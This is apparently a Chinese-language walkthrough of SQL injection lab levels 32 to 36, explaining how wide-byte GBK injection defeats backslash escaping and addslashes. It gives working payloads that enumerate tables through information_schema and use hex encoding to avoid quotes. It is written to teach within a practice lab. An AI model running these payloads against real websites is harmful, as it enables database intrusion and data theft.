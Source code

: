 这题将`\  '  "`都给转义了

来一发宽字节注入

`-1%df' union select 1,2,3; %23`

后台在给`'`转义后变成了 `\'`,所以sql语句变成了`-1%df%5c' union select 1,2,3; %23`

%df%5c在gbk编码下成了`運`,后面的`'`就可以正常闭合了

`-1%df' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479),3; %23`

这里注意where后面语句可以用十六进制来绕过单引号的限制

### 33 Bypass addslashes()

```php
function check_addslashes($string)
{
    $string= addslashes($string);    
    return $string;
}
```

和上一题一模一样，只是换成了php自带的addslashes

addslashes() 函数返回在预定义字符之前添加反斜杠的字符串。

预定义字符是：

+ 单引号（'）
+ 双引号（"）
+ 反斜杠（\）
+ NULL

### 34 Bypass Add SLASHES

这次还是对password和uname进行addslashes, 但是这次是post传参，
Hackbar在处理宽字节注入的时候对于'%'有点问题，具体可见
https://github.com/0140454/hackbar/issues/4 ,所以我们抓包解决
paylod: `passwd=12&uname=-111%df'+union+select+1,database();%23`


### 35 why care for addslashes()

这次id是整型，不用单引号

`-1111 union select 1,database(),3;--+`

`-1111 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479),3;--+`

...


### 36 Bypass MySQL Real Escape String

```php
function check_quotes($string)
{
    $string = mysql_real_escape_string($string);
    return $string;
}
```

